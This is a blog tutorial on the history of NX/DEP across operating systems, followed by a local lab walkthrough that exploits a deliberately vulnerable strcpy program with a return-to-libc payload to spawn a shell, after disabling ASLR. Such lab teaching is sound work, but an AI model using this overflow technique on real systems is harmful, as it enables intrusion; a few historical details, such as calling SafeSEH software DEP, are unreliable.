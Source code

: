 ```yaml
---
layout: post
title: Bypassing NX/DEP
date: 2017-10-02 21:28:16
description: Tutorial I go through bypassing NX/DEP and the history of this security mechanism.
tags: reverse engineering, pwn, x86, nx
categories: blog
---
```

# Bypassing NX/DEP
![Ryoko vs Nagato](/assets/img/Ryoko_vs_Nagato.png "Ryoko vs Nagato")
Alright, SO! I've spent about 14hrs working on this tutorial with my Kali box, and kept getting different addresses for the dynamic libraries. Still haven't learned why this is, but I WILL find the solution for this.

---

## Abstract:

In this writeup, I'll be going over the mechanism that makes enables programs to not have an executable stack, the history of it, and how to bypass this.

---

## History

Starting in 1961, the Burroughs 5000 had hardware support to prevent the entire stack from being executable. They implemented a tagged architecture, which provides an extra bit per word to signify if the word is executable or not.

- [Burroughs Large Systems](https://en.wikipedia.org/wiki/Burroughs_large_systems#Tagged_architecture)
- [Tagged Architecture](https://en.wikipedia.org/wiki/Tagged_architecture)

---
![B5000](/assets/img/b5000.png "B5000")
Executive space protection has also been incorporated into operating system design to prevent code injection. Here are a few operating systems and when they implemented NX into their OS':

### Linux:
![linux](/assets/img/penguin.png "linux")
- Android 2.3 and later have NX pages by default.  
- Some modern Linux distros don't enable "HIGHMEM64" (a way to increase the usable address space) by default, which is required for NX in 32-bit mode. This is because it causes boot failures on pre-Pentium Pro and Celeron M processors without NX support.  
- Ubuntu has always had NX memory protection so long as there was hardware to support it as well. In a case where you don't have hardware to support it, Ubuntu's 32-bit kernels provide an approximation of the NX CPU feature via emulation.

### Mac OS:
For macOS, their Intel chips support the NX bit, though the version determines what areas have the feature to be or not to be executable. (s/o to Shakespeare xD)  
- Mac OS X 10.4 only supported NX on the stack, whereas Mac OS X 10.5's 64-bit executables have NX stack and heap protection.

### Windows:
It wasn't until:
- Windows XP SP2 (2004) and Windows Server 2003 SP1 (2005) that the NX features were first implemented on the x86 architecture.  
Microsoft defines areas in a program that are Non-Executable as "Data Execution Prevention" or DEP.  

However, there are a few clauses:  
1. Only critical Windows Services utilized DEP.  
2. These features were only turned on by default if the hardware supported the feature. If it didn't, no protection was given.  

These versions didn't have Address Space Layout Randomization (ASLR), which "randomly arranges the address space positions of key data areas of a process, including the base of the executable and the positions of the stack, heap, and libraries."  

Later versions like Windows Vista and Windows Server 2008 had both ASLR + DEP. For the 32-bit version of these systems, Microsoft added Physical Address Extension (PAE). 64-bit systems have ASLR + DEP natively.  

From version Vista on, users can determine whether DEP is enabled or disabled for a particular process in the **Processes** tab of the **Windows Task Manager**. Microsoft implements software DEP called "Safe Structured Exception Handling" (SafeSEH). When there's an attempt to execute code in an area that's not allowed, it checks the exception handler table and calls the correct exception for this incident.

---

## Time for the more fun part! Let's get exploiting!

This little `vuln.c` program takes the input from the argument, and then prints it.

Nothing too crazy here:

```c
#include <stdio.h>
#include <string.h>

int main (int argc, char** argv) {
    char buf[20];
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
    return 0;
}
```
Before we compile this, we must turn off ASLR. By disabling ASLR, we can see the real physical addresses. Don't worry, I will have tutorials for defeating ASLR soon enough. ;)



## Disable ASLR
```bash
echo 0 > /proc/sys/kernel/randomize_va_space
cat /proc/sys/kernel/randomize_va_space
```

Now that we've disabled ASLR and verified it's off, let's compile the program and enable NX.

```bash
gcc -fno-stack-protector vuln.c -o vuln
execstack -c vuln
```

Perfect! Before we break this down with GDB, we gotta go over what's happening. When we execute, it grabs the dynamic libraries that are imported and all their functions and places them in memory (even the functions that aren't being used in the program).

This is important because the libc library also contains the function system(). The first argument of system() will execute a Linux command. We will be executing "/bin/sh" which will get us a shell. We also must find the string "/bin/sh" (which is also in libc). ;D

![nx-ex1](/assets/img/nx-ex1.png "nx-ex1")

## Breaking It Down in GDB
Sweet. So now let's set a breakpoint at main, and then find the address of the system() function.
```python
(gdb) break main
(gdb) run
(gdb) print system
(gdb) find &system, +99999999, "/bin/sh"
```
![nx-ex2](/assets/img/nx-ex2.png "nx-ex2")

Awesome!! So we have the address for system() → 0xb7e56190 && "/bin/sh" → 0xb7f76a24.

## Exploiting the Vulnerability
Now we have all our variables that we need. So to push our addresses onto the stack, we create a string that has:

1. 32 bytes of crap (A's),
2. then the address for system(),
3. then 4 bytes of crap again,
4. and then the string "/bin/sh".

```bash
./vuln $(python -c 'print "A"*32 + "\x90\x61\xe5\xb7" + "A"*4 + "\x24\x6a\xf7\xb7"')
```
![nx-ex3](/assets/img/nx-ex3.png "nx-ex3")

Who got shell? We got shell!!!!

## Additional Resources
- [Exploit Development: Stack Buffer Overflow Bypass NX/DEP](https://tehaurum.wordpress.com/2015/06/24/exploit-development-stack-buffer-overflow-bypass-nxdep/)
- [Executable Space Protection](https://en.wikipedia.org/wiki/Executable_space_protection#OS_implementations)
- [Another Bypassing NX Tutorial](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-return-to-libc/)
- [What is the use of -fno-stack-protector?](https://stackoverflow.com/questions/10712972/what-is-the-use-of-fno-stack-protector)
- *Hacking: The Art of Exploitation* by Jon Erickson - [Buy on Amazon](https://www.amazon.com/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441)
- [lpr LIBC RETURN Exploit](http://insecure.org/sploits/linux.libc.return.lpr.sploit.html)
- [Microsoft's Implementation of NX (DEP)](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366553(v=vs.85).aspx)
- [Detailed Description of the DEP Feature](https://support.microsoft.com/en-us/help/875352/a-detailed-description-of-the-data-execution-prevention-dep-feature-in)
- [ASLR on Address Space Layout Randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization)
- [Safe Structured Exception Handling (SafeSEH)](https://msdn.microsoft.com/en-us/library/windows/desktop/ms680657(v=vs.85).aspx)
- [Address Space](https://en.wikipedia.org/wiki/Address_space)
- [Dynamic Memory Allocation](https://en.wikipedia.org/wiki/Dynamic_memory_allocation)
- [Stack-based Memory Allocation](https://en.wikipedia.org/wiki/Stack-based_memory_allocation)
